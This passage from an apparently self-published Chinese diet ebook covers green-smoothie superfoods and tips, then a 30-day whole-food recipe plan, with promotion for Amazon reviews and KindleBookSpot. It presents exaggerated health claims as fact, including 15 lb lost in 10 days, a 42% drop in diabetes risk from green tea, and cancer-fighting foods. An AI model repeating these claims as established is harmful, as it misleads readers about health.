- 2. 绿茶。它被称为地球上最健康的饮品。它富含维生素、矿物质、抗氧化剂和无数营养素。以下是绿茶的10项益处。
  - 1. 它富含多酚。这类物质通过减少体内自由基的形成，保护细胞和分子免受损伤。
  - 2. 它含有抗氧化剂表没食子儿茶素没食子酸酯（Epigallocatechin Gallate）。这种物质是绿茶具有强大药用特性的原因。已知它具有治疗多种疾病的能力。
  - 3. 它含有适量咖啡因，可让人保持警觉，又不会带来咖啡因过量所致的“紧张不安”。
  - 4. 它具有抗焦虑作用。绿茶中的L-茶氨酸可增强γ-氨基丁酸（GABA）的活性，从而产生镇静效果。
  - 5. 它通过动员脂肪组织中的脂肪酸，可将身体表现提高多达37%。
  - 6. 它可降低人患乳腺癌、结直肠癌和前列腺癌的风险。
  - 7. 它可以降低老年人患阿尔茨海默病和痴呆症的风险。
  - 8. 饮用绿茶可使患糖尿病的几率降低42%，因为它能改善胰岛素敏感性并降低血糖水平。
  - 9. 由于全身循环改善，心血管疾病也可以得到预防。

- 3. 菠菜。这是大力水手在每场战斗中击败布鲁托的秘密。这并不奇怪，因为它含有大量营养素，可以对抗癌症、哮喘、糖尿病、高血压、骨骼疾病等重大疾病，这里仅举几例。此外，它热量低。

- 4. 石榴。石榴的健康益处也很多。这种水果富含纤维、蛋白质、维生素C和K、叶酸以及钾。它含有名为安石榴苷（punicalagins）和石榴酸（punicic acid）的独特物质，具有药用特性。它们可以减轻炎症，从而保护个人免受100多种炎症性疾病的影响。

- 5. 草莓。这种超级食物的健康益处包括：
  - 1. 它具有抗癌特性。
  - 2. 它可以增强免疫系统。
  - 3. 它促进眼睛健康。
  - 4. 它预防心血管疾病。
  - 5. 它具有抗衰老特性。

- 6. 羽衣甘蓝。它被认为是地球上最健康的食物之一。它富含维生素A、C、K和B6。它大量含有镁、锰、铜、钙和钾。由于含有槲皮素和山柰酚等抗氧化物质，它可以抗癌。它有助于降低胆固醇，从而减少心血管疾病的发生。就健康而言，羽衣甘蓝堪称王者。

- 7. 香蕉。这种水果会促使内啡肽释放，让人更快乐。此外，它富含血清素，这是另一种情绪增强剂。人会感到轻松和积极。作为复合碳水化合物，它为进行高强度锻炼的人提供适宜的能量。由于其富含钾，可预防锻炼期间腿部抽筋。

- 8. 芒果。它富含维生素和矿物质。它对胃肠道系统有益，因为它富含益生元膳食纤维。它含有多酚类抗氧化化合物，可有效对抗乳腺癌、结肠癌、前列腺癌和血液癌症。

- 9. 酸奶。加入这种配料，可以因其高钙含量预防骨质疏松症等骨骼疾病。近期研究还将酸奶与降低血压联系起来。此外，研究发现它能有效促进胃肠道系统健康。

- 10. 宽叶甘蓝（collard greens）。在降低胆固醇方面，没有什么能胜过宽叶甘蓝。因此，可以确保心脏健康。鲜为人知的是，宽叶甘蓝也非常擅长对抗多种癌症。它们含有4种特定的硫代葡萄糖苷，即：黑芥子苷（sinigrin）、葡萄糖豆瓣菜苷（gluconasturtiin）、萝卜硫苷（glucoraphanin）和葡萄糖屈曲花苷（glucotropaeolin）。这些物质可减轻可能导致癌性形成的炎症。

有了这些营养丰富、能燃烧脂肪的配料，就能确保身体健康、体脂更少、体重更低，而且还能拥有好心情。


## 第 6 章：绿色冰沙的实用小贴士

制作绿色冰沙的简单流程仍然可以做得更好。以下是一些让冰沙更美味的实用技巧：

- 不要用冰块，而是把水果或蔬菜冷冻起来。它们更容易搅打，而且冰沙味道会更好。
- 剩下的冰沙应随时放入冰箱冷藏。但如果当天喝不完，最好冷冻起来。改天可以做成冰块或冷冻甜点。
- 无论是孩子还是大人，都会喜欢用剩余冰沙制成的冰棒。只需将其倒入纸杯中，中间插上一根小棍，或者购买现成的冰棒模具即可。
- 使用当季的水果或蔬菜。这能为节食者省下不少钱。
- 别忘了经常更换食材，尤其是蔬菜。除了避免对冰沙产生厌倦感，这还能防止生物碱在体内积聚。
- 加点调料！加入辣椒粉、肉桂、生姜、肉豆蔻以及其他香草和香料，让绿色冰沙更有风味和活力。
- 用椰子水做成冰块。这不仅能改善口感，还能为营养满满的冰沙增添更多营养。椰子以富含钾、镁和其他电解质而闻名。
- 添加营养丰富的全谷物。它们能提供更多能量，同时含有多种营养素。
- 剩余的冰沙可以加入烘焙食品中。它能让你的布朗尼更有趣、更美味。不要害怕尝试。先在小份量上试验。如果试验成功，就可以为整批烘焙食品制作冰沙。
- 尽可能使用有机水果和蔬菜。
- 不要过度搅打水果。有些人喜欢在冰沙中保留小块的水果颗粒。
- 虽然液体是首先倒入的原料，但不要一次全部倒完。在搅打过程中，再加入剩余的液体。这样能让搅打过程不那么容易飞溅。
- 混合搭配。尝试所有你能想到的组合。没有限制，尽情发挥创意。
- 摆盘也很重要。在端上冰沙之前，在杯边放一小块水果或稍作装饰，就能带来很大不同。
- 享受乐趣！享受每一刻。毕竟，这关系到自己的健康。与他人分享这份快乐。邀请朋友和爱人品尝你的新配方或新发明。

制作绿色冰沙既有趣又简单！

## 第 7 章：绿色冰沙 + 健康生活方式 = 幸福长寿

绿色冰沙净化被证明能有效帮助人在 10 天内减重多达 15 磅。然而，它们并不是能让人永远保持苗条的魔法配方或神灯精灵。要保持理想体重，就需要调整生活方式。

不健康的习惯通常是多余赘肉的罪魁祸首。因此，如果不去采取行动根除或减少这些习惯，减掉的体重很快就会悄悄反弹。这就是为什么溜溜球效应在节食者中很常见。这个月他们很苗条，下个月又开始发胖。这种循环不会停止。必须有所改变。

绿色冰沙可以成为人们渴望的永久减肥的起点。然而，还需要满足其他条件。请看以下几点：

- 停止过量饮酒。酒精只含有空热量，零营养。此外，饮酒时往往会吃下不健康的食物，这会增加更多的空热量。因此，酗酒者不仅营养不良，还往往肥胖。除此之外，还有患上肝脏疾病的风险。
- 另一个是摄入过多甜食和加工食品。这会破坏绿色冰沙的初衷。冰沙旨在通过重新调整味蕾来让人变瘦。然而，摄入这些食物只会让对甜食的渴望卷土重来（体重也会随之反弹）。并非所有人都意识到，每喝一杯商业制作的奶昔，相当于需要运动 2-3 小时。这真的值得吗？更不用说，高糖含量会使人更容易患上可怕的糖尿病。
- 休息和睡眠不足也会导致肥胖。早晨起床时，人会感到疲惫，往往会吃得更多，然后又因为太累而无法锻炼，只能躺在床上或无所事事。休息和睡眠的时间是细胞从一天的压力中恢复的时间，是它们充电和修复的时间。所以，如果错过了这段时间，细胞就会磨损和受损，无法按设计正常运作。此外，缺乏睡眠会削弱免疫系统，使人更容易患病。
- 缺乏运动。缺乏足够的体力活动对健康有害。运动可以改善血液循环。人在运动时，大脑会释放“感觉良好”的化学物质。活跃的人体内二氧化碳和氧气的交换也更顺畅。
- 戒烟。一支香烟会将大约 400 种毒素带入体内。这是全世界可预防疾病和死亡的主要原因。当人吸烟或吸入环境中的烟雾时，所有身体系统都会受到影响。这使他容易患上各种疾病，主要是在呼吸系统和心血管系统方面。
- 压力管理。当人面临挑战和困难时，会释放一种叫做皮质醇的压力激素。当人懂得如何管理问题时，他也同时在做以下对身体的益处：
    - 平滑的组织灌注。所有重要器官和身体其他部位都能获得充足的含氧血液供应。
    - 放松的血管系统。动脉和静脉没有收缩，血液能在血管壁内顺畅流动。
    - 减少身体疼痛。乳酸被防止形成，因此身体的肌肉疼痛会减少。
    - 减少肌肉紧张。当压力得到控制时，肌肉也会放松下来。

绿色冰沙可以帮助人减肥，但为了保持理想体重，必须将其与健康的生活方式调整相结合。这样，长寿和幸福的生活就变得可以实现。

为绿色冰沙和健康干杯！

## 结语

再次感谢您下载这本书！

我希望这本书能够帮助您更好地了解如何利用冰沙净化法来获得您一直想要的身材和生活方式。只要拥有正确的信息和心态，恢复身体健康、提高生活质量永远都不晚。通过充分理解冰沙排毒的工作原理以及它如何改善您的生活，您很快就能恢复好身材。

完全放弃旧习惯可能并不容易，但要知道这是可能的。只要您制定一个行动计划，帮助自己走上正确的轨道，一切皆有可能。

请务必立即运用您从这本书中学到的知识。您不必做出剧烈的改变，只需做一些事情来启动这个过程，而进行健康的冰沙排毒应该足以帮助您获得梦寐以求的平坦小腹。

最后，如果您喜欢这本书，我想请您帮个忙：您能否在亚马逊上为这本书留下一条评论？我将不胜感激！

*[点击此处前往亚马逊为此书留下评论！](#)*

我希望触达尽可能多的人，而更多评论将帮助我实现这一目标。谢谢您，祝您好运！

**另外，请务必点赞我的 [Facebook](#) 页面，并加入关于健康和我的最新书籍的讨论！**

如果您喜欢这本书，还可以看看该系列的下一本书……


但是等等，如果你还没有观看过关于如何通过这个3周饮食计划减肥的重要视频，你可能想这么做。[点击此处观看。](#)

## 奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切对你都有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

如果你还没有，请务必查看我的新网站，[KindleBookSpot.com](KindleBookSpot.com)。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的Kindle折扣书籍。以下是我的网站提供的一些详情：

- 最畅销免费Kindle书籍的列表
- 折扣小说和非小说书籍
- 本周图书
- 精选书籍
- 在我的网站上推广你自己的书籍

这个网站不仅仅是为读者准备的，也是新兴作者在他们的书籍成为畅销书之前推广新书的地方。所以如果你想推广自己的书籍，请查看我的网站，[KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对你有用，也希望在那里见到你！

*订阅我们在KindleBookSpot不断增长的社区，以便在最佳书籍打折和免费时收到通知。*

# 全食物饮食挑战

## 30天全食物食谱书

我最喜欢的饮食的奖励信息

在 [KindleBookSpot.com](http://KindleBookSpot.com) 获取更多免费和特价书籍

## 目录

- 引言
- 第1章：全食物饮食的好处
- 第2章：开始全食物饮食
- 第3章：饮食计划（30天指南）
- 第4章：全食物早餐食谱
- 第5章：午餐食谱
- 第6章：晚餐食谱
- 第7章：全食物零食
- 第8章：提示和技巧
- 结论

## 引言

我要感谢你并祝贺你下载了这本书，《全食物饮食挑战：30天全食物食谱书》。

本书包含经过验证的步骤和策略，教你如何感觉更健康、提高能量并过上更快乐的生活。

为什么大多数人想到健康和健身时，第一反应是感到沮丧，好像整个想法都不存在？当然我们不可能都是健身专家，但如果你真的认真想要恢复体形、感觉更好，就有一些技巧可以帮助你实现一直想要的那种身材。无论是减肥还是更有精力，改变饮食都是一个很好的开始。

随着年龄的增长，你身体的自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善你的身心健康，而阅读这本书就是过上你一直想要的生活的第一步。

了解全食物的用途以及你将获得的好处。本书将指导你了解有关如何最好地使用这种饮食并过上更健康生活的一切知识。

### 本书将教你：

- 完全从零开始制作美味且营养的餐食
- 由于摄入的各种营养物质而感觉更有精力
- 享受让你感到满足的健康零食
- 以及更多！

你还在等什么？开始阅读，今天就改变你的生活方式吧！

再次感谢你下载这本书，我希望你喜欢它！

不要忘记查看我最喜欢的饮食之一，并在底部学习我用来快速减掉顽固多余脂肪的3周饮食策略。

### 在我们开始之前...

## 奖励：免费获取我提供的更多视频和书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。为了感谢你，我想赠送你更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康，你将获得的一切对你都有用。我将提供：

- 我撰写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

## 第 1 章：全食物饮食的好处

全食物饮食是一种几乎不含或不含加工食品的饮食。我们都知道吃健康均衡饮食的重要性，但我们中的许多人未能吃到能为我们提供所需营养的食物。

### 一种美味的饮食方式

许多人认为健康均衡的饮食就是吃像纸板一样的食品，并且错过自己喜欢的餐食。这完全不是这样，你可能会惊讶于本书中包含的一些食谱有多美味。吃全食物饮食只有在你喜欢各种美味餐食时才有效，本书将指导你走上健康饮食之旅。

### 额外能量

当你享受全食物饮食时，你的能量会比以往任何时候都多。能量来自你吃的食物，主要是因为你会吃含有缓慢释放碳水化合物的食物。更重要的是，你可能会感觉更少疲劳、更少压力，而且你可能会稍微减肥。

## 第 2 章：开始全食物饮食

全食物饮食已被证明是一种非常美味的饮食，如果你愿意，它可以帮助你减肥，并变得更健康。有时，你可能会开始感到困难，但下面有一些有用的提示，可以让你的生活更轻松一些。

### 犯错误

我们有时都会犯错误，而在开始新饮食时也会犯错。你可能会不小心（或故意）吃了一些后来后悔吃的东西。如果发生了这种情况，不要惊慌，只要尽快回到全食物饮食即可。

### 了解你可以在哪里获取食材

确保你的全食物饮食尽可能成功最好的方法之一，就是你确切地知道可以在哪里获取食材。如果你附近有商店可以卖给你新鲜的水果和蔬菜以及其他健康食品，那你就赚到了。

在开始全食物计划之前，请弄清楚你可以在哪里以及何时购买所需的食物。弄清楚你可以在网上购买什么，可以在当地商店购买什么。这将帮助你了解在完全用完之前需要提前多久订购特定物品。

### 与朋友一起开始计划

虽然许多人独自开始新饮食，但那些与朋友或家人一起开始饮食的人往往会更成功。这是因为他们有人可以交流心得。他们也可能因为与他人一起踏上旅程而获得很多动力和奖励，这永远不是坏事。

### 奖励自己

你现在和以后奖励自己非常重要。不要坚持只吃健康食品。这对你不好，因为你的身体也需要脂肪、糖和盐。每周结束时奖励自己，这样你就不会觉得自己错过了什么。或者，每天给自己一个非常小的奖励，但不要过度。

## 关键食物/食材

### 全谷物

全谷物是全食物饮食的重要组成部分。全谷物富含纤维和各种维生素和矿物质。更重要的是，它们可以帮助降低你患2型糖尿病的风险，甚至可以帮助降低你的胆固醇水平。

每当你能做到时，请购买含有100%全谷物的食品，并在烹饪或烘焙时使用全麦面粉。这些食物会让你更长时间感到饱足，尤其是因为它们与其他食品相比未经过加工，或者根本未加工。

### 水果和蔬菜

水果和蔬菜富含身体所需的各种营养物质。如果你给身体提供保持正常运作所需的所有营养，你的健康就会改善。更重要的是，由于水果和蔬菜中含有高水平的纤维，你也可能会减肥。

从当地的果蔬店或市场购买，因为食物会比超市更新鲜、更便宜。

### 乳制品

当你开始全食物饮食时，请确保你只食用无糖、全脂、有机的乳制品。如果有的话，也选择放牧饲养的产品。


## 第 3 章：饮食计划（30 天指南）

第4章包含了许多不同的食谱供你享用。收录的食谱美味又营养，有助于让天然食品饮食变得有趣。有些食谱制作起来需要一些时间，而另一些则只需几分钟。

你还会看到，我在饮食计划中加入了非常容易制作的零食和早餐项目（比如建议你在零食时间吃一份酸奶）。我特意加入这些，是因为它们简单，而且对健康也很有益。很简单，你并不总需要从零开始做一道菜才能享受美味。一罐天然酸奶就可以是很健康的零食，即使它本来就是你会吃的东西。

### 一点建议

请看看我添加进这本书的食谱。有些可能看起来合你口味，有些你可能会想避开。无论如何，请随意按你的意愿修改食谱，随心所欲地烹饪。

你可能会认为我添加了30个早餐食谱，然后是30个午餐食谱，等等。事实上，我添加的食谱较少，因为我想给你创造自己食谱的机会，或者让你可以多次享受同一道菜。

你即将开始的天然食品饮食是非常个人化的。这些食谱只是我加入书中的建议，如何使用它们取决于你。某天你可能会做一道非常精致的菜，第二天你可能选择从当地商店买一小袋切好的水果。无论你做什么，无论你决定吃什么，确保它健康，并且享受它。

## 第 4 章：天然食品早餐食谱

每天早晨享用美味又营养的早餐。从可能需要你前一天晚上准备的餐点，到那些几乎不花时间的餐点。

### 香蕉覆盆子果昔

配料：（2人份）

- 1根擦丝的胡萝卜
- 四分之三杯覆盆子
- 1根香蕉
- 半杯原味酸奶
- 半个橙子
- 四分之一杯燕麦
- 半杯牛奶

把所有配料放入搅拌机，搅打至顺滑。倒入杯中即可享用。

### 红薯华夫饼

配料：（4人份）

- 四分之一杯玉米淀粉
- 一杯半糕点用小麦粉
- 半茶匙海盐
- 1杯红薯泥
- 1杯酪乳
- 2汤匙红糖
- 四分之一茶匙肉豆蔻
- 2个鸡蛋
- 4汤匙融化无盐黄油
- 喷雾油
- 2茶匙泡打粉
- 半杯火腿丁

将华夫饼模预热，在碗中搅拌玉米淀粉、面粉、泡打粉、糖、肉豆蔻和盐。在另一个碗中，搅拌酪乳、鸡蛋、红薯泥和黄油。

现在取面粉混合物，加入红薯混合物中。搅拌至配料充分混合。加入火腿并搅拌。

取喷雾油，喷在华夫饼模上，然后舀约三分之一杯面糊到模具中。按照制造商的说明烹制。即可享用。

### 早餐玛芬

配料：（12个）

- 2片全麦面包
- 4盎司擦丝切达干酪
- 8个鸡蛋
- 半磅培根
- 半杯牛奶
- 盐和胡椒

将烤箱预热至350°F，在玛芬烤盘中放入12个玛芬纸杯，并将面包切成半英寸见方的小块。在每个纸杯底部放几块。

取一个搅拌碗，搅打鸡蛋和牛奶，然后用盐和胡椒调味。现在取蛋液，分装到每个玛芬纸杯中。然后在上面撒上奶酪，再加入培根。烘烤约15分钟，或直到鸡蛋凝固。即可享用。

### 黄油吐司

配料：（1人份）

- 2片全麦面包
- 无盐黄油

照常烤面包，然后在上面抹上你想要的黄油量。热食或冷食皆可。

### 香蕉什锦果仁麦片

配料：（2人份）

- 1根香蕉
- 四分之一杯天然食品什锦果仁
- 半杯什锦麦片
- 1杯酸奶

将香蕉纵向切开，每半放入一个碗中。每碗加入半杯酸奶，然后将什锦果仁和什锦麦片分到两个碗中。即可享用。

### 豆腐蔬菜炒碎

配料：（3-4人份）

- 1包老豆腐
- 1个番茄，切成四份
- 2杯菠菜叶
- 3瓣大蒜
- 半个黄甜椒
- 半个红洋葱
- 八分之一茶匙海盐

将甜椒、菠菜、大蒜和洋葱放入食品加工机，脉冲式搅打，直到所有配料都被切碎。

将混合物加入煎锅，中高火加热，直到微沸。现在加入豆腐、海盐，搅拌，确保用勺子把大块的豆腐捣碎。煮到几乎没有液体剩余，即可享用。

## 第 5 章：午餐食谱

这些午餐食谱可以装进餐盒带去上班，也可以在家享用。在接下来的几天里吃掉任何剩菜，这样你能享受到它们最新鲜的状态。

### 豆子意面汤

配料：（3人份）

- 半个切碎的中型洋葱
- 1瓣剁碎的大蒜
- 八分之一杯蔬菜高汤
- 半根切片的芹菜茎
- 半汤匙橄榄油
- 半罐番茄
- 半根切片胡萝卜
- 半杯通心粉
- 八分之一茶匙海盐
- 半把切片的羽衣甘蓝
- 四分之三杯博洛蒂豆

将豆子浸泡一夜，第二天沥干。将豆子放入大锅中。加入足量水，直到水没过豆子约2英寸，煮沸。现在撇去表面出现的浮沫。降低火候，盖上锅盖炖约45分钟，或直到豆子变软。

将胡萝卜、大蒜、洋葱和芹菜放入平底锅，煮约8分钟，或直到它们变软。沥干豆子，与番茄、2杯水和盐一起加入锅中。煮沸，然后加入意面煮至变软。现在加入羽衣甘蓝，再炖约5分钟。即可享用。

### 培根鸡肉杯

配料：（3人份）

- 1棵长叶生菜（取叶片）
- 3杯鸡丁
- 2汤匙牛奶
- 6片切碎的熟培根
- 16盎司樱桃番茄
- 半杯酸奶油
- 四分之一杯葱花
- 2汤匙切碎的莳萝
- 半茶匙盐
- 胡椒

将鸡肉、番茄和培根放入碗中，混合均匀，放在一旁。在另一个碗中，搅拌酸奶油、葱花、牛奶、盐、胡椒和莳萝。然后倒在鸡肉上，拌匀。

现在将沙拉舀入生菜叶中。即可享用。

### 天贝鲁本三明治

配料：（2人份）

- 2片瑞士奶酪
- 2杯蔬菜高汤
- 1.5汤匙番茄酱
- 1汤匙伍斯特酱
- 4片黑麦面包
- 三分之一杯德式酸菜
- 八分之一杯黄瓜调味酱
- 1包天贝，切成四份
- 八分之一杯希腊酸奶
- 喷雾油

将伍斯特酱和高汤加入酱锅，煮沸，然后将火调至中火，加入天贝。炖至变软，或约20分钟。

将烤箱设置为400°F，将天贝放入烤盘中，烘烤至完全热透，或约15分钟。取番茄酱、调味酱和酸奶，放入小碗中搅拌。

现在取混合物，涂抹在面包的每一面上。将天贝放在面包上。然后取德式酸菜，铺在天贝上，接着加入奶酪，以及另外几片面包。

取一个煎锅，喷上油，置于中火上。然后将三明治放入煎锅，盖上重盖子，以便压住三明治。烹制约3分钟，或直到面包变成金黄色。然后翻转三明治，烹制另一面。即可享用。


### 鸡肉凯撒沙拉

食材：（2人份）

- 100克切碎的鸡肉
- 1/4杯凯撒沙拉酱
- 1个切碎的生菜
- 1罐鹰嘴豆

将所有食材放入碗中，拌匀后即可食用。

### 鸡肉卷饼

食材：（3人份）

- 3张大的墨西哥薄饼
- 半个洋葱，切丁
- 3/4杯糙米
- 1/2杯玉米粒（最好用冷冻的）
- 1杯鸡丝
- 1茶匙菜籽油
- 1/2杯萨尔萨酱
- 1.5杯菠菜叶
- 3汤匙酸奶油

在大煎锅中加入油，用中高火加热。然后加入玉米和洋葱，煮至玉米变成棕色。将米饭和鸡肉加入煎锅，加热至熟透。

将混合物从火上移开，然后拌入酸奶油和萨尔萨酱。展开墨西哥薄饼，放上菠菜叶，再把约1/3杯的混合物呈一条线地放在薄饼中间。然后把薄饼的上端向下折，下端向上折，再卷起来。即可食用。

### 芹菜辣椒沙拉

食材：（3人份）

- 4根芹菜
- 1汤匙柠檬汁
- 2个浸泡过的去核椰枣
- 1/8茶匙辣椒碎
- 1汤匙柠檬皮屑
- 1/8杯柠檬汁
- 1/4杯切碎的欧芹
- 1汤匙芝麻酱
- 1/8茶匙海盐
- 新鲜薄荷适量
- 8-10颗切碎并烤过的杏仁

将椰枣和浸泡过它们的水放入搅拌机中。然后加入芝麻酱、柠檬汁、盐和辣椒。搅拌至顺滑。将搅拌好的食材放入碗中，加入其余食材，拌匀即可食用。

## 第 6 章：晚餐食谱

下面这些晚餐食谱能让你在一天结束时感到心满意足。剩下的可以留到第二天当午餐，或者晚上再吃。

### 意面蔬菜烤菜

食材：（4人份）

- 半磅意面
- 1.5杯切碎的蔬菜
- 半汤匙海盐
- 半罐切碎的番茄
- 半个南瓜，打成泥
- 1/4茶匙黑胡椒
- 一小撮混合香草
- 1杯马苏里拉奶酪

将意面放入沸水中，搅拌。煮约8分钟。同时，将烤箱调至华氏350度。将意面沥干，放入耐热碗中，加入南瓜泥、番茄和蔬菜，搅拌均匀。然后加入奶酪，烘烤约40分钟，或烤至热透。即可食用。

### 番茄豆子辣椒

食材：（3人份）

- 1小罐切碎的番茄
- 1汤匙橄榄油
- 1罐黑豆
- 半罐斑豆
- 半个切碎的甜椒
- 1根切碎的芹菜
- 1个切碎的红洋葱
- 2瓣切碎的大蒜
- 2小撮盐
- 半茶匙牛至
- 3/4茶匙烟熏红椒粉
- 1汤匙辣椒粉
- 1汤匙香菜
- 1茶匙孜然
- 半片月桂叶
- 1杯水
- 1茶匙青柠汁

在厚底锅或荷兰锅中倒入橄榄油并加热，然后加入胡萝卜、洋葱、甜椒、芹菜和1小撮盐，搅拌。煮至蔬菜变软，约5分钟。

现在加入红椒粉、辣椒、大蒜、牛至和孜然，搅拌。继续搅拌约1分钟。然后加入番茄、斑豆、黑豆、水和半片月桂叶。搅拌，然后小火炖煮约15至20分钟，期间偶尔搅拌。加入香菜，搅拌，再加入剩余的盐，再次搅拌后即可食用。

### 蔬菜法士达

食材：（2人份）

- 2个切片的甜椒
- 115克切片的蘑菇
- 1个切片的洋葱
- 1根塞拉诺辣椒
- 1茶匙混合香料
- 1汤匙融化的黄油
- 1汤匙食用油
- 半个青柠的汁
- 3张墨西哥薄饼

在平底锅中用中高火加热油，油热后加入甜椒和洋葱。然后在一个小碗中放入黄油、香料和青柠汁，搅拌均匀。当甜椒开始变棕时，加入香料混合物和蘑菇，搅拌。再煮约3分钟，然后放在墨西哥薄饼上或与薄饼一起食用。

### 慢炖锅牛肉蔬菜炖菜

食材：（3-4人份）

- 半磅炖牛肉，切块
- 750克切块或切楔形的土豆
- 一小撮盐
- 1.5茶匙红酒醋
- 170克切成四等份的蘑菇
- 3瓣切片的大蒜
- 2根切碎的胡萝卜
- 3/4汤匙番茄酱
- 6盎司珍珠洋葱
- 1.5汤匙酱油
- 1/4茶匙黑胡椒

将土豆放入慢炖锅。在煎锅中加入盐和牛肉，用中高火煮，搅拌至牛肉变色。牛肉煮好后，放到土豆上。然后在煎锅中将蘑菇煎至变色，再放入慢炖锅。

现在将洋葱、胡萝卜和大蒜放入慢炖锅。将醋、番茄酱、酱油和黑胡椒放入碗中搅打，然后倒入慢炖锅。用小火煮约8小时，待牛肉变软后即可食用。

### 牛肉面条

食材：（3人份）

- 半磅牛肉末
- 半罐切碎的番茄
- 一把蘑菇
- 半个青椒
- 1杯玉米
- 1个小洋葱，切碎
- 半包面条
- 1杯切达奶酪丝
- 调味料

将牛肉放入厚底锅中，用中火加热，经常搅拌直到牛肉煮熟。加入调味料、青椒、洋葱、蘑菇和玉米，搅拌。然后把面条放在上面，再取奶酪撒在面条上。接着把番茄倒在奶酪上，盖上锅盖。用中高火煮约1小时，即可食用。

### 烧烤鸡肉

食材：（4人份）

- 2块鸡胸肉（去骨去皮，切成细条）
- 4块鸡腿肉（去骨去皮）
- 1.5汤匙甜红椒粉
- 3/4汤匙盐
- 半茶匙干大蒜
- 2/3杯烧烤酱
- 1/3杯烧烤酱，用于蘸食
- 1/8茶匙辣椒粉

将大蒜、卡宴辣椒、红椒粉和盐放入碗中搅拌均匀。将混合物撒在鸡胸肉和鸡腿上，烤约2分钟以封住肉汁。然后把鸡肉放入平底锅煎至刚好熟，再放回烤架下，抹上烧烤酱。

再烤1分钟，然后配上额外准备的烧烤酱一起食用。

## 第 7 章：全食物零食

下面这些食谱美味又营养，而且脂肪含量不高。可以每天吃一到两次，作为全食物饮食的一部分。

### 葡萄干燕麦饼干

食材：（可做20块）

- 半杯浸泡过的葡萄干
- 半杯葡萄干
- 1杯燕麦
- 1/4茶匙肉豆蔻
- 1/4茶匙盐
- 1茶匙肉桂
- 半杯腰果酱或花生酱
- 1茶匙泡打粉
- 1茶匙香草精

打开烤箱，将温度设定为华氏350度。将3/4杯燕麦放入食品加工机中，脉冲搅打至细腻。然后取一个碗，加入肉桂、泡打粉、肉豆蔻、燕麦粉和盐，搅拌均匀。

在食品加工机中加入浸泡过的葡萄干和约1/4杯浸泡葡萄干的水。将葡萄干打成泥，然后加入香草和花生酱，继续搅打成泥。将葡萄干混合物、未浸泡的葡萄干和剩下的燕麦加入燕麦混合物中。搅拌混合，确保所有燕麦面粉混合物都被吸收。

用茶匙取1茶匙混合物放到烤盘上，并确保你


将饼干间隔摆放。间隔1英寸即可。用勺背将混合物稍微压平，烘烤最多12分钟，或直到饼干底部略微变褐。

转移到冷却架上放凉。即可食用。

### 一份水果

享受一份你喜欢的水果，但尽量不要一直吃同一种水果。你吃的水果种类越广，获得的营养就越多。

水果可以新鲜食用、冷冻食用或干燥食用，但要小心任何添加剂、防腐剂、盐和糖。如有疑虑，新鲜或冷冻的总是最好的。

### 水果与爆米花混合零食

配料：（6人份）

- 两又四分之三杯果干
- 2杯无盐爆米花

将所有配料放入碗中，分成若干份。将各份保存在容器中，带去上班。

### 花生酱南瓜饼干

配料：（可做20块）

- 四分之一杯燕麦片
- 半杯无盐花生
- 一小撮盐
- 四分之一杯无糖可可粉
- 四分之一杯顺滑花生酱
- 半杯切碎的椰枣
- 1茶匙香草精
- 八分之一杯南瓜泥

将烤箱预热至华氏375度。将燕麦和花生放入碗中混合。然后用料理机脉冲搅打，直到配料混合成粗粒混合物。加入盐和可可粉，脉冲搅打至混合。

现在将花生酱和南瓜泥加入搅拌碗中，搅拌至完全混合。加入椰枣和香草精，再次搅拌。加入干性配料，慢慢搅拌，直到形成浓稠面团。

取一汤匙面团，搓成球，放在烤盘上。重复操作，直到用完所有面团，将面团间隔约1英寸摆放。用叉子将混合物压扁。现在将面团放入烤箱，烘烤约10-12分钟，或直到变干。冷却后即可食用。

### 一份酸奶

一小罐或一盒酸奶可以是非常令人满足的零食。确保只吃没有添加多少糖或完全不加糖的原味酸奶。加入一些小块水果，增添特别风味。

### 羽衣甘蓝脆片

配料：

- 1汤匙橄榄油
- 四分之一茶匙盐
- 4杯压实的羽衣甘蓝叶

将烤箱预热至华氏375度。修剪并清洗羽衣甘蓝，然后将它们铺在烤盘上。现在取橄榄油，洒在叶片上。用手翻拌叶片，使油均匀分布。将叶片放回烤盘，铺成单层。

将叶片烘烤约5分钟，然后翻面。再烘烤5分钟，或直到叶片开始变褐变脆。将叶片从烤箱中取出，加盐并翻拌。即可食用。

## 第 8 章：提示与技巧

开始新的健康饮食模式可能并不容易，但如果你确保自己享受美味的餐食和零食，就不会觉得自己错过了什么。本书中的全食物食谱应能让你感到饱足，这要归功于它们所含的天然纤维。

当然，欢迎你尝试自己的食谱，或对本书中的食谱做些改变。你吃的食物种类越多样，身体获得的营养就越多。

### 水

请确保喝足够多的水，最好每天8杯。

它可能有助于减重，因为它会让你更有饱腹感，也会让你感觉压力小很多。

### 运动

如果你不想运动，不必勉强，因为吃健康餐食很可能就会让你减重。如果你确实多运动，那么你会减掉更多体重。我不建议你同时开始新的运动计划和新的健康饮食计划。生活中的两大改变可能会有点太过头，所以先调整好饮食，然后温和地引入一些运动，缓慢而稳定地进行。

如果你已经在运动，那么请在你习惯全食物饮食之前，不要给运动计划增加更多内容。

### 你的减重

如果你为了减重而参与全食物计划，那么你很可能会减掉一些体重。当你第一次开始全食物计划时，前几周你会减掉很多体重，但一段时间后减重速度会放缓。这是正常的，无需担心，只要你坚持吃健康餐食，减重就会继续。

### 如果你想再次执行该计划

全食物饮食是一种非常可持续的饮食，会让你感觉健康得多。你有可能余生都采用全食物饮食，因为它非常健康。如果你觉得这种饮食很难坚持，或者你想偶尔吃其他食物，那么请确保维持一种健康的饮食，但只包含少量不健康的餐食。

## 结论

再次感谢你下载本书！

我希望本书能帮助你开始期待一种美味又营养的全食物饮食。

